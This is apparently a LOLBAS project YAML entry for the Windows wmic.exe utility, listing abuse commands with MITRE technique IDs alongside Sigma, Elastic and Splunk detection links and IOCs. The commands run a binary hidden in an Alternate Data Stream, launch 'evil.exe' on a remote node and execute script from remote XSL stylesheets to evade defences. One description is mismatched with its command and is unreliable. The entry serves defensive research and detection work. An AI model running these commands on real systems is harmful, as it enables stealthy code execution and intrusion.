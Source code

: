 ```yaml
---
Name: Wmic.exe
Description: The WMI command-line (WMIC) utility provides a command-line interface for WMI
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: wmic.exe process call create "c:\ads\file.txt:program.exe"
    Description: Execute a .EXE file stored as an Alternate Data Stream (ADS)
    Usecase: Execute binary file hidden in Alternate data streams to evade defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: wmic.exe process call create calc
    Description: Execute calc from wmic
    Usecase: Execute binary from wmic to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: wmic.exe /node:"192.168.0.1" process call create "evil.exe"
    Description: Execute evil.exe on the remote system.
    Usecase: Execute binary on a remote system
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: wmic.exe process get brief /format:"https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl"
    Description: Create a volume shadow copy of NTDS.dit that can be copied.
    Usecase: Execute binary on remote system
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: wmic.exe process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"
    Description: Executes JScript or VBScript embedded in the target remote XSL stylsheet.
    Usecase: Execute script from remote system
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: WSH
  - Command: wmic.exe datafile where "Name='C:\\windows\\system32\\calc.exe'" call Copy "C:\\users\\public\\calc.exe"
    Description: Copy file from source to destination.
    Usecase: Copy file.
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\wbem\wmic.exe
  - Path: C:\Windows\SysWOW64\wbem\wmic.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/image_load/image_load_wmic_remote_xsl_scripting_dlls.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_wmic_xsl_script_processing.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_wmic_squiblytwo_bypass.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_wmic_eventconsumer_creation.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_suspicious_wmi_script.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/persistence_via_windows_management_instrumentation_event_subscription.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Splunk: https://github.com/splunk/security_content/blob/961a81d4a5cb5c5febec4894d6d812497171a85c/detections/endpoint/xsl_script_execution_with_wmic.yml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/remote_wmi_command_attempt.yml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/remote_process_instantiation_via_wmi.yml
  - Splunk: https://github.com/splunk/security_content/blob/08ed88bd88259c03c771c30170d2934ed0a8f878/detections/endpoint/process_execution_via_wmi.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: Wmic retrieving scripts from remote system/Internet location
  - IOC: DotNet CLR libraries loaded into wmic.exe
  - IOC: DotNet CLR Usage Log - wmic.exe.log
  - IOC: wmiprvse.exe writing files
Resources:
  - Link: https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
  - Link: https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
  - Link: https://twitter.com/subTee/status/986234811944648707
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

